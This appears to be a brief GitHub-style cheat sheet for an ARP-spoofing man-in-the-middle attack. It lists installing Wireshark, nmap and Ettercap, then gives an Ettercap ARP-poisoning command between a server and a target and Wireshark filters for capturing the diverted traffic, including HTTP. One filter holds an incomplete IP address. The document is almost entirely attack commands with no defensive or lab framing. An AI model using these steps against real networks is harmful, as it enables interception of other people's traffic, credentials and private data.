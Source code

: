 **tools**
<pre>
apt install wireshark
apt install nmap
apt install ettercap-text-only
</pre>

**attack**
<pre>
  sudo ettercap -T -S -i eth0 -M arp:remote /server_ip// /target_ip/
 open wireshark
  sudo wireshark
 select the eth0 or wlan0
 FILTERS: ip.addr == 10.0.4
          ip.addr == 10.0.4 && http

</pre>
